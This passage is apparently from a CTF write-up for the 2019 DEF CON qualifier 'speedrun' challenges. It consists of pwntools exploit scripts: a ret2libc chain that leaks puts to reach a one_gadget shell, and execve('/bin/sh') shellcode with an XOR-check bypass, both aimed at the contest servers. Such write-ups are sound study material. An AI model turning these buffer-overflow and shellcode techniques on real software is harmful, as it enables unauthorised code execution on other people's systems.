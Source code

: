 ```python
libc=ELF("./libc6_2.27-3ubuntu1_amd64.so")
#p=process('./speedrun-002')
pay1=p64(rdi)+p64(got)+p64(puts)+p64(reuse)
p=remote("speedrun-002.quals2019.oooverflow.io",31337)
p.sendafter("now?\n","Everything intelligent is so boring.")
p.sendafter("me more.\n",'\x00'*0x408+pay1)
p.readuntil("ing.\n")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-libc.sym['puts']
log.info(hex(base))
#gdb.attach(p,'')
#raw_input()
p.sendafter("now?\n","Everything intelligent is so boring.")
pay2=p64(base+0x4f322)
p.sendafter("me more.\n",'\x00'*0x408+pay2)
sleep(0.8)
p.sendline("cat flag")
p.interactive()
#OOO{I_didn't know p1zzA places__mAde pwners.}
```
# speedrun-003
* shellcode
```python
from pwn import *
def xor(s,l=0xf):
	res=0x0
	i=0
	for x in s:
		i+=1
		res^=ord(x)
		if i==l:
			return res
		

context.log_level='debug'
context.arch='amd64'
#p=process('./speedrun-003')
#gdb.attach(p,'b *0x000555555554997')
p=remote("speedrun-003.quals2019.oooverflow.io",31337)
sh='''
xor rsi,rsi
xor rdx,rdx
mov al,0x68
push rax
mov rdi,0x732f2f2f6e69622f
push rdi
mov rdi,rsp
mov al,0x3b
syscall
'''
payload=asm(sh).ljust(0x1d,'\x01')
fff=xor(payload)
eee=xor(payload[0xf:],0xe)
aaa=eee^fff
payload+=chr(aaa)
p.sendafter("drift\n",payload)
sleep(0.8)
p.sendline("cat /flag")
p.interactive()
```
# speedrun-004